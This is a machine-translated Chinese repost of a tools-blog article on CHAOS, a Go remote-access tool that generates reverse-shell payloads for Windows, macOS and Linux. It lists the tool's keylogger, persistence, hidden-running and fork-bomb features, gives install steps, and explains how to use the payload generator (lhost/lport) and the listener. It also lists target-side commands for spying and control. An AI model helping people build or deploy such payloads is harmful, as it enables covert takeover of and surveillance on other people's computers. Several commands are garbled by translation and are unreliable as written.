

# 混沌:允许生成有效载荷和控制远程操作系统的 poco

> 原文：<https://kalilinuxtutorials.com/chaos-poc/>

CHAOS 是一个 PoC，它允许生成有效负载并控制远程操作系统。

**特性**

| 特征 | Windows | 苹果个人计算机 | Linux |
| --- | --- | --- | --- |
| `Reverse Shell` | X | X | X |
| `Download File` | X | X | X |
| `Upload File` | X | X | X |
| `Screenshot` | X | X | X |
| `Keylogger` | X |
| `Persistence` | X |
| `Open URL` | X | X | X |
| `Get OS Info` | X | X | X |
| `Fork Bomb` | X | X | X |
| `Run Hidden` | X |

**也可阅读-[osme deus:用于侦察的全自动攻击性安全工具&漏洞扫描](https://kalilinuxtutorials.com/osmedeus-reconnaissance-vulnerability-scanning/)**

**如何安装**

安装依赖项
$ sudo apt 安装 golang git -y

获取此库
$ go 获取 github.com/tiagorlampert/CHAOS

获取外部 golang 依赖项(需要获取所有依赖项)
$ go 获取 github.com/kbinani/screenshot
$ go 获取 github.com/lxn/win
$ Go 获取 github.com/matishsiao/goInfo
$ Go 获取 golang.org/x/sys/windows

也许您会看到消息“打包 github.com/lxn/win:构建约束排除所有 Go 文件”。

之所以会出现这种情况，是因为这些库是针对 windows 系统的，但它需要构建有效负载。

进入资源库
$ CD ~/Go/src/github . com/tiagorlampert/CHAOS

Run
$ Go Run main . Go

**如何使用？**

| 命令 | 主机上有… |
| --- | --- |
| `generate` | 生成有效载荷(例如`generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`) |
| `lhost=` | 为连接指定 ip |
| `lport=` | 指定用于连接的端口 |
| `fname=` | 指定要输出的文件名 |
| `--windows` | 目标窗口 |
| `--macos` | 目标 Mac OS |
| `--linux` | 目标 Linux |
| `listen` | 监听新的连接(例如`listen lport=8080`) |
| `serve` | 提供文件 |
| `exit` | 退出此程序 |

| 命令 | 目标是… |
| --- | --- |
| `download` | 文件下载 |
| `upload` | 文件上传 |
| `screenshot` | 截图 |
| `keylogger_start` | 启动键盘记录器会话 |
| `keylogger_show` | 显示键盘记录器会话日志 |
| `persistence_enable` | 启动时安装 |
| `persistence_disable` | 从启动中删除 |
| `getos` | 获取操作系统名称 |
| `lockscreen` | 锁定操作系统屏幕 |
| `openurl` | 打开通知的网址 |
| `bomb` | 跑叉炸弹 |
| `clear` | 清空屏幕 |
| `back` | 关闭连接，但继续在目标上运行 |
| `exit` | 关闭连接并退出目标 |

**演示视频**

[https://www.youtube.com/embed/Fq_0yDPFjYE?feature=oembed&enablejsapi=1](https://www.youtube.com/embed/Fq_0yDPFjYE?feature=oembed&enablejsapi=1)

**免责声明**

本软件按“原样”提供，没有任何形式的担保。您可以自担风险使用该软件。最终用户完全负责使用。开发人员不承担任何责任，也不对该程序造成的任何误用或损坏负责。